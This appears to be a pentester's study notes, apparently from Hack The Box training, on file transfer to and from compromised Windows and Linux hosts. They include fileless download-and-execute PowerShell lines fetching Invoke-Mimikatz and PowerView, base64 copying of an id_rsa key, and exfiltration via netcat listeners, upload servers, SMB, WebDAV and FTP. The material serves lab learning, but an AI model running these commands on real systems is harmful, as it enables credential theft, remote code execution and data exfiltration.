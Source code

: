 ### Base 64 transfer file without actually downloading anything

Check HASH of original file 
```shell
md5sum id_rsa
```
Encode to base 64 
```shell
cat id_rsa |base64 -w 0;echo
```
Copy and paste across, decode with powershell

```powershell
PS C:\htb> [IO.File]::WriteAllBytes("Details.txt", [Convert]::FromBase64String("<base 64>"))
```

# Downloads
## PowerShell Web Downloads
[Using System.Net.WebClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0)

|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|

```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

```powershell
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```

### Fileless
Download and execute directly. 
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Slow Method:
```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### Common PowerShell errors

#### Internet Explorer first launch has not been configured 
```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX
```

#### Certificate Not Trusted
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```


## SMB Downloads

Create an SMB Share 
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
Copy the file 
```cmd-session
copy \\<local>\<file>
```

Security Policy Issue?
```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd
net use n: \\192.168.220.133\share /<user>:<test> <folder>
```

## FTP Downloads 
Set Up FTP server 
```shell
sudo pip3 install pyftpdlib
```

```shell
sudo python3 -m pyftpdlib --port 21
```

```powershell
(New-Object(Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```
### Command File 

```shell
echo open <ip> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET <file> >> ftpcommand.txt
echo bye >> ftpcommand.txt
```
```cmd-session
ftp -v -n -s:ftpcommand.txt
```

# Upload
### Base 64 
```powershell
[Convert]::ToBase64String((Get-Content -path "<path>" -Encoding byte))
```

```shell
echo <flie | base64 -d > <filename>
```

```shell
md5sum hosts 
```

### Web Uploads 
```shell
pip3 install uploadserver
```
```shell
python3 -m uploadserver
```

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://<ip>:8000/upload -File <path to file>
```

#### Base 64 uploads
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<path to file>))
```

```shell
nc -lvnp 8000
```

```powershell
Invoke-WebRequest -Uri http://<ip>:8000/ -Method POST -Body $b64
```

### SMB Uploads 
[SMB is often prevented from leaving local network](https://support.microsoft.com/en-us/topic/preventing-smb-traffic-from-lateral-connections-and-entering-or-leaving-the-network-c0541db7-2244-0dce-18fd-14a3ddeb282a)

SMB over HTTP with WebDav.WebDAV
```shell
sudo pip install wsgidav cheroot
```
```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
attempt to connect to share 
```cmd-session
dir \\<ip>\Directory
```
Upload Files 
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
### FTP Uploads 

```shell
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
New-Object Net.WebClient).UploadFile('ftp://<ip>/ftp-hosts', 'path to file')
```

#### Command File
```shell
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
# [PowerShell Remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2)

By default creates HTTP and HTTPS listeners.

Confirm WinRM port 5985 is Open on Computer. 
```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```
Create powershell remote session 
```powershell
$Session = New-PSSession -ComputerName DATABASE01
```
Attacker to Target:
```powershell
Copy-Item -Path <local machine file path> -ToSession $Session -Destination <output>
```
Target to Attacker 
```powershell
Copy-Item -Path "<file path>" -Destination C:\ -FromSession $Session
```


# RDP
## Shared Folders
### rdesktop 
```shell
rdesktop <ip> -d HTB -u <user> -p '<password>' -r disk:linux='<folder loc>'
```

### xfreerdp
```shell
xfreerdp /v:<ip> /d:HTB /u:<user> /p:'<passsword>' /drive:linux,<folder loc>
```
